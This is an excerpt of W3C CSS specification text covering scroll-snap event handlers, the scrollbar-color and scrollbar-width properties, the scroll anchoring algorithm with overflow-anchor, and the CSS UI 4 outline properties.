The following are additional event handlers (and their corresponding event handler event types) that must be supported by all HTML elements as both event handler content attributes and event handler IDL attributes; and that must be supported by all `Window` objects and `Document` objects, as event handler IDL attributes:

| Event handler | Event handler event type |
| --- | --- |
| **`onscrollsnapchange`** | `scrollsnapchange` |
| **`onscrollsnapchanging`** | `scrollsnapchanging` |

#### Extensions to the `GlobalEventHandlers` Interface Mixin {#css-scroll-snap-2:interface-globaleventhandlers}

This specification extends the `GlobalEventHandlers` interface mixin from HTML to add event handler IDL attributes for `SnapEvent`s as defined in [Event handlers on elements, Document objects and Window objects](#css-scroll-snap-2:event-handlers-on-elements-document-and-window-objects).

##### IDL Definition {#css-scroll-snap-2:interface-globaleventhandlers-idl}

```webidl
partial interface mixin GlobalEventHandlers {
  attribute EventHandler onsnapchanged;
  attribute EventHandler onsnapchanging;
};
```

---

## CSS Scrollbars Styling Module Level 1 {#css-scrollbars-1}

- **Shortname:** `css-scrollbars-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-scrollbars/](https://drafts.csswg.org/css-scrollbars/)
- **Published TR:** [https://www.w3.org/TR/css-scrollbars-1/](https://www.w3.org/TR/css-scrollbars-1/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-05-14

### 1.  Introduction {#css-scrollbars-1:intro}

*This section is non-normative.*

This CSS module introduces properties to influence the visual styling of scrollbars, including their color (`scrollbar-color`) and thickness (`scrollbar-width`).

#### 1.1.  Scope {#css-scrollbars-1:scope}

The CSS Scrollbars Module is specifically for styling scrollbar controls themselves, e.g. their color & width in Level 1, and not their layout nor whether any content is scrollable. All layout impacts and content scrollability are specified in the [CSS Overflow Module](#css-overflow-5).

Based on [documented use-cases](https://www.w3.org/wiki/Css-scrollbars#Use-cases), there are three main use-cases around scrollbars this module intends to resolve:

1. Coloring scrollbars to fit better into the UI of a web application.
2. Using a thinner scrollbar when the scrolling area is small.
3. Hiding UA-provided scrollbars, to allow the provision of custom interfaces for scrolling without affecting other aspects of scrollability.

##### 1.1.1.  Out Of Scope {#css-scrollbars-1:out-of-scope}

The internal structure, layout, and configuration of scrollbars, as well as precise control over their coloring, is out of scope. This is because different platforms have different scrollbar structures and styling conventions, and operating systems continuously evolve their scrollbar designs to provide better user experience. Pseudo-elements for selecting specific parts of a scrollbar, for example, were considered and rejected. While this level of fine control would be tempting for authors, the arrangement of the various parts—​or whether they’re even all present—​cannot be depended on. Providing too much control would allow authors to get perfect results on some platforms, but at the expense of broken results on others.

> **Note:** Exposing the scrollbar-related `::-webkit-` prefixed pseudo-elements to the Web is considered a mistake by both the CSS Working Group and Webkit. Nevertheless, see [§ 2.1 Interaction with non-standard features](#css-scrollbars-1:color-compat) and [§ 3.1 Interaction with non-standard features](#css-scrollbars-1:width-compat).

#### 1.2.  Value Definitions {#css-scrollbars-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Scrollbar Colors: the `scrollbar-color` property {#css-scrollbars-1:scrollbar-color}

| Field | Value |
| --- | --- |
| Name: | **scrollbar-color** |
| [Value:](#css-values-4:value-defs) | auto \| `<color>`{2} |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword or two computed colors |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

This property allows the author to set colors of an element’s scrollbars.

UAs must apply the scrollbar-color value set on the root element to the viewport.

> **Note:** Unlike `overflow` (and overflow-*) properties, scrollbar-color value set on the HTML `body` element are not propagated to the viewport.

****auto****

: The user agent determines the colors of the scrollbar. It should follow platform conventions, but may adjust the colors in accordance with `color-scheme` or other contextual information to better suit the page.

****`<color>`****

: The user agent should use the specified colors to adjust the rendering of the element’s scollbars, if any, applying the first color to the thumb of the scrollbar, and the second color to the track of the scrollbar.

The **track** refers to the background of the scrollbar, which is generally fixed regardless of the scrolling position.

The **thumb** refers to the moving part of the scrollbar, which usually floats on top of the track.

Some scrollbars also include additional controls, refered to as **buttons**, which usually sit at the top or bottom of the scrollbar on top of the track. This specification does not define whether and how buttons—​if present—​are colored.


Anatomy of a scrollbar

If this property computes to a value other than `auto`, implementations may render a simpler scrollbar than the default platform UI rendering, and color it accordingly.

> **Note:** Sometimes the UA is unable to customize the colors of native scrollbars, perhaps due to how they’re structured, or to a lack of control given by the native toolkit. The provision above allows the UA to replace them with differently-constructed scrollbars, which it does know how to color.

> **Note:** User agents are expected to use the color in the rendering of the scrollbar, but that does not imply they need to paint the entire thumb or track with a single solid featureless color. The specified color can be used as a tint for part of the component, lighter or darker shades of the color can be used for highlights, shadows, texture…

> **Example:** The following image represents a possible rendition of a scrollbar given the following css:
>
> ```
> scrollbar-color: #8eb0dc #d2d4d6;
> ```
>
> This specific design is not only that single shade of blue over that single shade of gray: the thumb has a subtle vertical gradient going from a lighter shade at the top to a slightly darker shade at the bottom, darker notches in the middle, as well as a darker outline, all derived from the specified shade of blue; the light gray track has a darker outline. This design also happens to include buttons.
>
> 
>
> Nevertheless, authors cannot assume that this will necessarily be the case, as on a different platform or a different user agent the rendering could be a solid color thumb over a solid color track, as seen below.
>
> 

Implementations may ignore any of the colors if the corresponding part do not exist on the underlying platform.

When using `scrollbar-color` property with specific color values, authors should ensure the specified colors have enough contrast between them. For the `auto` value, UAs should ensure the colors they use have enough contrast. See [WCAG 2.1 SC 1.4.11 Non-text Contrast](https://www.w3.org/TR/WCAG21/#non-text-contrast) [WCAG21]. UAs may ignore these contrast requirements based on explicit user preferences (for example, when users choose a configuration option/setting that always ensures a particular scrollbar color / use of system default scrollbars).

> **Note:** Implementations can take advantage of the fact that they have full discretion in how to apply the specified colors in order to visually respond to user interactions with the scrollbar (e.g. hovering or activating): they could alter which scrollbar parts the specified colors apply to, use darker or lighter shades of the specified colors, more or less saturated variants…

If the user agent displays the scrollbar without the track, they must ensure reasonable contrast between the thumb and what is behind it. However, if the author set the color of the track to be fully transparent, the user agent may assume that the author has provided for sufficient contrast even with an invisible track.

> **Note:** This is typically relevant in the case of overlay scrollbars, either on platforms where the track is never displayed, or on platforms where it is only displayed when the scrollbar is being interacted with but not when scrolling with the mouse wheel or the track-pad. This does not apply in cases where the entire scrollbar is hidden as is often the case with overlay scrollbars while no scroll operation is ongoing *and* when the scrollbar is not being interacted with either.

> **Note:** The user agent is free to achieve this by any of a variety of means, depending on the platform, on design choices, or on what is practical to implement, such as:
>
> - Doing nothing if it can determine that contrast is already sufficient
> - Doing nothing if the design and geometry of the thumb ensures that some part of it will always be visible regardless of what is behind it
> - Adding an outline, shadow, or glow around the thumb to provide contrast (possibly using the track color as the contrasting color, or possibly using a different shade of the thumb color)
> - Adding some texture or geometry to the thumb so that it’s color isn’t uniform
> - Drawing the track anyway in cases where not doing so yields insufficient contrast
> - Replacing the thumb color with the track color when that provides better contrast
> - Altering the luminosity of the specified thumb color while preserving its hue
> - Disregarding the specified thumb color altogether and use automatically determined alternative

#### 2.1.  Interaction with non-standard features {#css-scrollbars-1:color-compat}

On any element or pseudo-element where the computed value of `scrollbar-color` is anything other than the initial `auto` value, user agents must ignore any alternative non-standard means for authors to influence the rendering of scrollbars, such as the `::webkit-scrollbar` family of pseudo-elements.

### 3. Scrollbar Thickness: the `scrollbar-width` property {#css-scrollbars-1:scrollbar-width}

| Field | Value |
| --- | --- |
| Name: | **scrollbar-width** |
| [Value:](#css-values-4:value-defs) | auto \| thin \| none |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property allows the author to specify the desired thickness of an element’s scrollbars.

> **Advisement:** The primary purpose of this property is not to allow authors to choose a particular scrollbar aesthetic for their pages, but to let them indicate for certain small or cramped elements of their pages that a smaller scrollbar would be desirable.
>
> Scrollbars are a UI mechanism essential to interact with the page. Operating systems tend to want consistency in such controls to improve usability through familiarity, and users with specific preferences or needs can adjust the appearance of various UI components, including scrollbars, through OS or UA settings.
>
> While using this property in support of specific UX goals is appropriate, authors should otherwise refrain from overriding such user preferences.

****auto****

: Implementations must use the default scrollbar width.

  > **Note:** On most systems, this corresponds to the traditional somewhat wide scrollbar. However, through OS or UA settings, users can have the ability to change what this default corresponds to, possibly making the default scrollbar wider or narrower than is typical.

****thin****

: Implementations should use thinner scrollbars than `auto`. This may mean a thin variant of scrollbar provided by the platform, or a custom scrollbar thinner than the default platform scrollbar. The scrollbar must nonetheless remain wide enough to be usable. (Implementers may wish to consult [WCAG 2.1 SC 2.5.5 Target Size](https://www.w3.org/TR/WCAG21/#target-size). [WCAG21])

  > **Note:** User agents can use various strategies to ensure the usability of narrow scrollbars. For instance, in the case of overlay scrollbars, they can dynamically enlarge the scrollbar in response to a user attempting to interact with it. User agents on devices with touch screens can also adjust how they interpret finger taps to facilitate interacting with visually small touch targets.

  User agents may disregard this value and treat it as `auto`, for instance when the user has indicated discomfort for thin scrollbars through some UA or OS setting. (User agents are encouraged to provide such a setting.)

  > **Note:** Some platforms only have a tiny scrollbar by default which cannot be reasonably made thinner. In such cases, this value will behave as `auto`.

****none****

: Implementations must not display any scrollbar, however the element’s scrollability by other means is not affected.

  > **Advisement:** Using this value can prevent mouse-only users from being able to scroll. Authors should ensure that mouse-only users can still reach hidden content, even if they have no scrollwheel.

  > **Advisement:** Authors that use `none` should provide an alternative/equivalent visual hint that scrolling is possible and there is more content.

  > **Note:** For situations where an element is to be scrolled *only* by programmatic means, and not by direct user manipulation, `overflow: hidden` is appropriate, not `scrollbar-width: none`.

> **Note:** Users who find the `thin` style of scrollbars unusable can include the following rule in their user style sheet:
>
> ```
> * { scrollbar-width: auto !important; }
> ```
>
> This will ensure that all scrollbars are sized as per OS and UA settings regardless of author styles.

UAs must apply the `scrollbar-width` value set on the root element to the viewport.

> **Note:** Unlike the `overflow` property (and its longhands), a `scrollbar-width` value set on the HTML `body` element is not propagated to the viewport.

> **Note:** This specification does not define the exact position or shape of the scrollbar, or any animation thereof, such as fading or sliding in/out of view.

#### 3.1.  Interaction with non-standard features {#css-scrollbars-1:width-compat}

On any element or pseudo-element where the computed value of `scrollbar-width` is anything other than the initial `auto` value, user agents must ignore any alternative non-standard means for authors to influence the rendering of scrollbars, such as the `::webkit-scrollbar` family of pseudo-elements.

### Appendix D. Considerations for accessibility {#css-scrollbars-1:accessibility-considerations}

This appendix is *non-normative*.

As noted [in the definition of the property](#css-scrollbars-1:scrollbar-width), authors need to be mindful of the accessibility implications of using `scrollbar-width: thin`. Scrollbars are a important piece of the user agent’s interface, and it is not appropriate for a web site author to change their size over aesthetic considerations. The property is available to support cases where the author wants to indicate that in a cramped area of the web page a thin scrollbar would be a more effective use of space. However, ultimately, the user, through their user agent, needs to have the last word on such things.

Using this property in such cases is preferable to authors building a custom thin-looking scrollbar in via script or proprietary extensions, because it does give the user the opportunity to override it.

User style sheets do provide such an override, and additionally, user agents are encouraged to expose a setting letting users express that they do not want thin scrollbars to be used.

The CSS Working Group also acknowledges the needs of some users to have scrollbars that are wider than is typical. Operating systems and user agents can offer a means to let users express that preference, and in such cases, CSS will honor that choice.

---

## CSS Scroll Anchoring Module Level 1 {#css-scroll-anchoring-1}

- **Shortname:** `css-scroll-anchoring-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-scroll-anchoring/](https://drafts.csswg.org/css-scroll-anchoring/)
- **Published TR:** [https://www.w3.org/TR/css-scroll-anchoring-1/](https://www.w3.org/TR/css-scroll-anchoring-1/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-09-30

### 1.  Introduction {#css-scroll-anchoring-1:intro}

Today, users of the web are often distracted by content moving around due to changes that occur outside the viewport. Examples include script inserting an iframe containing an ad, or non-sized images loading on a slow network.

Historically the browser’s default behavior has been to preserve the absolute scroll position when such changes occur. This means that to avoid shifting content, the webpage can attempt to reserve space on the page for anything that will load later. In practice, few websites do this consistently.

Scroll anchoring aims to minimize surprising content shifts. It does this by adjusting the scroll position to compensate for the changes outside the viewport.

The [explainer document](https://github.com/WICG/ScrollAnchoring/blob/master/explainer.md) gives an informal overview of scroll anchoring.

#### 1.1.  Value Definitions {#css-scroll-anchoring-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Description {#css-scroll-anchoring-1:description}

Scroll anchoring attempts to keep the user’s view of the document stable across layout changes. It works by selecting a DOM node (the **anchor node**) whose movement is used to determine adjustments to the scroll position.

However, if the scroll container is currently snapped to an element, (see [CSS-SCROLL-SNAP-1]) scroll anchoring is limited to adjustments that would be allowed by re-snapping.

#### 2.1.  Anchor Node Selection {#css-scroll-anchoring-1:anchor-node-selection}

Each scrolling box aims to select an anchor node that is deep in the DOM and either should be prioritized as an important DOM node or is close to the block start edge of its optimal viewing region.

> **Note:** If the user agent does not support the `scroll-padding` property, the optimal viewing region of the scrolling box is equivalent to its content area.

An anchor node can be any box except one for a non-atomic inline. The anchor node is always a descendant of the scrolling box. In some cases, a scrolling box may not select any anchor node.

An element *C* is a **viable candidate** for becoming a scroll anchor for a scrolling box *S* if it meets all of the following criteria:

- *C* is an element that is not a non-atomic inline.
- *C* is partially visible or fully visible in *S*
- *C* is a descendant of *S*
- *C* is not in an excluded subtree
- None of the ancestors of *C* up to *S* are in an excluded subtree

Some elements are considered to be **anchor priority candidates** for anchor selection:

1. The DOM anchor of the focused area of the document, if such an anchor is text editable (editable, editing host, mutable `textarea`, or mutable `input` with a type that allows text entry).
2. An element containing the current active match of the find-in-page user-agent algorithm. If the match spans multiple elements, then consider only the first such element.

Note that if the priority candidate is a non-atomic inline element, then instead consider its nearest ancestor element that is not a non-atomic inline element as the priority candidate.

The **anchor node selection algorithm** for a scrolling box *S* is as follows:

1. If *S* is generated by an element whose computed value of the `overflow-anchor` property is `none`, then do not select an anchor node for *S*.
2. If *S* is not scrolled away from the origin of its scrolling area in its block flow direction, then do not select an anchor node for *S*.
3. Otherwise, for each priority candidate *PC* in order specified, check if *PC* is a viable candidate in *S*. If so, perform the candidate examination algorithm for *PC* in *S* and terminate.

   > **Note:** Since the priority candidate itself is checked to be viable, the candidate examination algorithm is guaranteed to select at least the candidate node itself.
4. Otherwise, for each DOM child *N* of the element or document associated with *S*, perform the candidate examination algorithm for *N* in *S*, and terminate if it selects an anchor node.

The **candidate examination algorithm** for a candidate DOM node *N* in a scrolling box *S* is as follows:

1. If *N* is an excluded subtree, or if *N* is fully clipped in *S*, then do nothing (*N* and its descendants are skipped).
2. If *N* is fully visible in *S*, select *N* as the anchor node.
3. If N is partially visible:

  1. For each DOM child *C* of *N*, perform the candidate examination algorithm for *C* in *S*, and terminate if it selects an anchor node.
  2. For each absolutely-positioned element *A* whose containing block is *N*, but whose DOM parent is not *N*, perform the candidate examination algorithm for *A* in *S*, and terminate if it selects an anchor node.
  3. Select *N* as the anchor node. (If this step is reached, no suitable anchor node was found among *N*’s descendants.)

   > **Note:** Deeper nodes are preferred to minimize the possibility of content changing inside the anchor node but outside the viewport, which would cause visible content to shift without triggering any scroll anchoring adjustment.

A DOM node *N* is an **excluded subtree** if it is an element and any of the following conditions holds:

- *N*’s computed value of the `display` property is `none`.
- *N*’s computed value of the `position` property is `fixed`.
- *N*’s computed value of the `position` property is `sticky`.
- *N*’s computed value of the `position` property is `absolute` and *N*’s containing block is an ancestor of the scrolling box.
- *N*’s computed value of the `overflow-anchor` property is `none`.

A DOM node *N* is **fully visible** in a scrolling box *S* if *N*’s scroll anchoring bounding rect is entirely within the optimal viewing region of *S*.

A DOM node *N* is **fully clipped** in a scrolling box *S* if *N*’s scroll anchoring bounding rect is entirely outside the optimal viewing region of *S*.

A DOM node *N* is **partially visible** in a scrolling box *S* if *N* is neither fully visible in *S* nor fully clipped in *S*.

The **scroll anchoring bounding rect** of a DOM node *N* is *N*’s scrollable overflow rectangle.

##### 2.1.1.  Invalidation {#css-scroll-anchoring-1:anchor-node-invalidation}

An anchor node is considered valid for a scrolling box until any of the following occur:

- The scroll position of the scrolling box changes (excluding adjustments originating from scroll anchoring).
- A suppression trigger suppresses a scroll adjustment.
- The anchor node is removed from the DOM.

Once an anchor node has become invalid, the anchor node selection algorithm must be run again to compute the anchor node

As a performance optimization, implementations may wait until the anchor node is needed before computing it.

#### 2.2.  Scroll Adjustment {#css-scroll-anchoring-1:scroll-adjustment}

If an anchor node was selected, then when the anchor node moves, the browser computes the previous offset `y0`, and the current offset `y1`, of the block start edge of the anchor node’s scroll anchoring bounding rect, relative to the block start edge of the scrolling content in the block flow direction of the scroller.

It then queues an adjustment to the scroll position of `y1 - y0`, in the block flow direction, to be performed at the end of the suppression window.

The scroll adjustment is a type of [scrolling](#cssom-view-1:scrolling-events) as defined by [CSSOM-VIEW], and generates scroll events in the manner described there.

##### 2.2.1.  Suppression Window {#css-scroll-anchoring-1:suppression-windows}

Every movement of an anchor node occurs within a window of time called the **suppression window**, defined as follows:

- The suppression window begins at the start of the current iteration of the [HTML Processing Model](https://html.spec.whatwg.org/multipage/webappapis.html#processing-model-8) event loop, or at the end of the most recently completed suppression window, whichever is more recent.
- The suppression window ends at the end of the current iteration of the [HTML Processing Model](https://html.spec.whatwg.org/multipage/webappapis.html#processing-model-8) event loop, or immediately before the next operation whose result or side effects would differ as a result of a change in the scroll position (for example, an invocation of `getBoundingClientRect()`), whichever comes sooner.

> **Note:** The suppression window boundaries should be incorporated into the HTML standard once the scroll anchoring API is stabilized.

More than one anchor node movement may occur within the same suppression window.

At the end of a suppression window, the user agent performs all scroll adjustments that were queued during the window and not suppressed by any suppression trigger during the window.

##### 2.2.2.  Suppression Triggers {#css-scroll-anchoring-1:suppression-triggers}

A **suppression trigger** is an operation that suppresses the scroll anchoring adjustment for an anchor node movement, if it occurs within the suppression window for that movement. These triggers are:

- Any change to the computed value of any of the following properties, on any element in the path from the anchor node to the scrollable element (or document), inclusive of both:

  - `top`, `left`, `right`, or `bottom`
  - `margin` or its longhands
  - `padding` or its longhands
  - `width`, `height`, `min-width`, `max-width`, `min-height`, or `max-height`
  - `position`
  - `transform`
- Any change to the computed value of the `position` property on any element within the scrollable element (or document), such that the element becomes or stops being absolutely positioned. Note that this trigger applies regardless of whether the modified element is on the path from the anchor node to the scrollable element.
- The scroll offset of the scrollable element being zero.

> **Note:** Suppression triggers exist for compatibility with existing web content that has negative interactions with scroll anchoring due to shifting content in scroll event handlers.

### 3.  Exclusion API {#css-scroll-anchoring-1:exclusion-api}

Scroll anchoring aims to be the default mode of behavior when launched, so that users benefit from it even on legacy content. `overflow-anchor` can disable scroll anchoring in part or all of a webpage (opt out), or exclude portions of the DOM from the anchor node selection algorithm.

| Field | Value |
| --- | --- |
| Name: | **overflow-anchor** |
| [Value:](#css-values-4:value-defs) | auto \| none |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Values are defined as follows:

****auto****

: Declares that the element is potentially eligible to participate in the anchor node selection algorithm for any scrolling box created by the element or an ancestor.

****none****

: Declares that the element and its descendants (that aren’t nested inside of another scrolling element) are *not* eligible to participate in the anchor node selection algorithm for any scrolling box created by the element or an ancestor.

> **Note:** It is not possible to turn scroll anchoring "back on" for descendants of a `overflow-anchor: none` element. However, descendant scroll containers automatically "turn it back on" (for their own scrolling box) unless they explicitly have `overflow-anchor: none` set on them as well.

> **Note:** The `overflow-anchor` property was also proposed (with different values) for [CSS Sticky Scrollbars](http://tabatkins.github.io/specs/css-sticky-scrollbars/), which has now been [superseded](https://tabatkins.github.io/specs/css-sticky-scrollbars/#intro).

---

## CSS Basic User Interface Module Level 4 {#css-ui-4}

- **Shortname:** `css-ui-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-ui-4/](https://drafts.csswg.org/css-ui-4/)
- **Published TR:** [https://www.w3.org/TR/css-ui-4/](https://www.w3.org/TR/css-ui-4/)
- **W3C Status:** WD (revising)
- **Last Edited:** 2026-11-13

### 1.  Introduction {#css-ui-4:intro}

This module describes CSS properties which enable authors to style user interface related properties and values.

[Section 2.1 of CSS1](https://www.w3.org/TR/REC-CSS1#anchor-pseudo-classes) [CSS1] and [Chapter 18 of CSS2](#css2) [CSS21] introduced several user interface related properties and values. [User Interface for CSS3 (16 February 2000)](https://www.w3.org/TR/2000/WD-css3-userint-20000216) introduced several new user interface related features.

[CSS-UI-3] was later introduced to incorporate, extend, and supersede these. This specification continues this work, and in turn replaces [CSS-UI-3].

#### 1.1.  Purpose {#css-ui-4:purpose}

The purpose of this specification is to achieve the following objectives:

- Extend the user interface features in [CSS21] and [CSS-UI-3]
- Provide additional CSS mechanisms to augment or replace other dynamic presentation related features in HTML.
- Introduce directional navigation properties to assist in the construction of user interfaces which make use of a directional navigation model.

### 2. Module Interactions {#css-ui-4:interaction}

This document defines new features not present in earlier specifications. In addition, it replaces and supersedes [CSS-UI-3], which itself replaced and superseded the following:

- [Section 18.1](#css2:cursor-props), [section 18.4](#css2:dynamic-outlines), and Information on the stacking of outlines defined in [Appendix E](#css2) of Cascading Style Sheets, level 2, revision 1 [CSS21]
- [User Interface for CSS3 (16 February 2000)](https://www.w3.org/TR/2000/WD-css3-userint-20000216) [CSS-UI-3]

> **Note:** The `box-sizing` property was previously defined in this section of the specification, but has been moved to [CSS Sizing 3 § 3.3 Box Edges for Sizing: the box-sizing property](#css-sizing-3:box-sizing).

> **Note:** The `text-overflow` property was previously defined in this section of the specification, but has been moved to [CSS Overflow 3 § 5.1 Overflow Ellipsis: the text-overflow property](#css-overflow-3:text-overflow).

#### 2.1.  Value Definitions {#css-ui-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS21] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 3.  Outline properties {#css-ui-4:outline-props}

At times, style sheet authors may want to create outlines around visual objects such as buttons, active form fields, image maps, etc., to make them stand out. Outlines differ from borders in the following ways:

1. Outlines do not take up space.
2. Outlines contribute to the ink overflow area of an element.
3. Outlines may be non-rectangular.
4. UAs often render outlines on elements in the `:focus-visible` state.

The outline properties control the style of these dynamic outlines.

The stacking of the rendering of these outlines is explicitly left up to implementations to provide a better user experience per platform. This supersedes the stacking of outlines as defined in [Appendix E of CSS 2.1](#css2) [CSS21].

**Keyboard users, in particular people with disabilities who may not be able to interact with the page in any other fashion, depend on the outline being visible on elements in the `:focus-visible` state, thus authors must not make the outline invisible on such elements without making sure an alternative highlighting mechanism is provided.**

The rendering of applying transforms to outlines is left explicitly undefined.

#### 3.1. Outlines Shorthand: the `outline` property {#css-ui-4:outline}

| Field | Value |
| --- | --- |
| Name: | **outline** |
| [Value:](#css-values-4:value-defs) | `<'outline-width'>` \|\| `<'outline-style'>` \|\| `<'outline-color'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `outline` property is a shorthand property and sets all three of `outline-style`, `outline-width`, and `outline-color`. In the ambiguous case where a lone `auto` value is specified, or if `auto` is specified together with an <'outline-width'> value, but without an explicit <'outline-style'> or <'outline-color'> value, both `outline-style` and `outline-color` are set to `auto`.

> **Note:** The shorthand purposefully omits the `outline-offset` property, which determines the position rather than the appearance of the outline, so that it can cascade independently, as well as for backwards compatibility reasons.

The outline created with the outline properties is drawn "over" a box, i.e., the outline is always on top and doesn’t influence the position or size of the box, or of any other boxes. Therefore, displaying or suppressing outlines does not cause reflow.

Outlines may be non-rectangular. For example, if the element is broken across several lines, the outline should be an outline or minimum set of outlines that encloses all the element’s boxes.

Each part of the outline should be fully connected rather than open on some sides (as borders on inline elements are when lines are broken).

The parts of the outline are not required to be rectangular. To the extent that the outline follows the border edge, it should follow the `border-radius` curve, as well as the `corner-shape`.

The position of the outline may be affected by descendant boxes.

The dimensions of the drawn outline contribute to the ink overflow area of an element.

User agents should use an algorithm for determining the outline that encloses a region appropriate for conveying the concept of focus to the user.

> **Note:** This specification does not define the exact position or shape of the outline, but it is typically drawn immediately outside the border box.

> **Note:** The outline is the same on all sides. In contrast to borders, there are no `outline-top`, `outline-left`, etc. properties.

This specification does not define how multiple overlapping outlines are drawn or how outlines are drawn for boxes that are partially obscured behind other elements.

> **Example:** Here’s an example of drawing a thick outline around a BUTTON element:
>
> ```
> button { outline: thick solid }
> ```

Graphical user interfaces may use outlines around elements to tell the user which element on the page has the focus. These outlines are shown in addition to any borders, and switching outlines on and off should not cause the document to reflow. The focus is the subject of user interaction in a document (e.g. for entering text or selecting a button).

> **Example:** For example, to draw a thick black line around elements in the `:focus-visible` state, and a thick red line when it is in the `:active` state, the following rules can be used:
>
> ```
> :focus-visible  { outline: thick solid black }
> :active { outline: thick solid red }
> ```

> **Note:** Since the outline does not affect formatting (i.e., no space is left for it in the box model), it may well overlap other elements on the page.

#### 3.2.  Outline Thickness: the `outline-width` property {#css-ui-4:outline-width}

| Field | Value |
| --- | --- |
| Name: | **outline-width** |
| [Value:](#css-values-4:value-defs) | `<line-width>` |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | absolute length, snapped as a border width |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The `outline-width` property accepts the same values as `border-width` ([CSS Backgrounds 3 § 3.3 Line Thickness: the border-width properties](#css-borders-4:border-width)), with the same meaning.

#### 3.3.  Outline Patterns: the `outline-style` property {#css-ui-4:outline-style}

| Field | Value |
| --- | --- |
| Name: | **outline-style** |
| [Value:](#css-values-4:value-defs) | auto \| `<outline-line-style>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

**`<outline-line-style>`** accepts the same values as `<line-style>` ([CSS Backgrounds 3 § 3.2 Line Patterns: the border-style properties](#css-borders-4:border-style)) with the same meaning, except that `hidden` is not a legal outline style. In addition, the `outline-style` property accepts the value `auto`.

The `auto` value permits the user agent to render a custom outline style, typically a style which is either a user interface default for the platform, or perhaps a style that is richer than can be described in detail in CSS, e.g. a rounded edge outline with semi-translucent outer pixels that appears to glow. User agents may enable authors to influence the rendering of `auto` style outlines via the `outline-color` property, but this specification does not define how the rendering is impacted (if at all). The `outline-width` property is ignored when `outline-style` is `auto`. User agents may treat `auto` as `solid`.

#### 3.4.  Outline Colors: the `outline-color` property {#css-ui-4:outline-color}

| Field | Value |
| --- | --- |
| Name: | **outline-color** |
| [Value:](#css-values-4:value-defs) | auto \| `<'border-top-color'>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see below |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The `outline-color` property accepts all values of `<'border-top-color'>`, as well as the following keywords:

****auto****

: When `outline-style` is `auto`, `outline-color: auto` computes to `auto` and represents the accent color.

  Otherwise, `outline-color: auto` computes to `currentColor`.

See [CSS Color 4 §  15. Resolving <color> Values](#css-color-4:resolving-color-values) for the computed value of `<color>` values, and [CSS Images 4 § 4 1D Image Values: the <image-1D> type and stripes() notation](#css-images-4:stripes) for `<image-1D>` values.

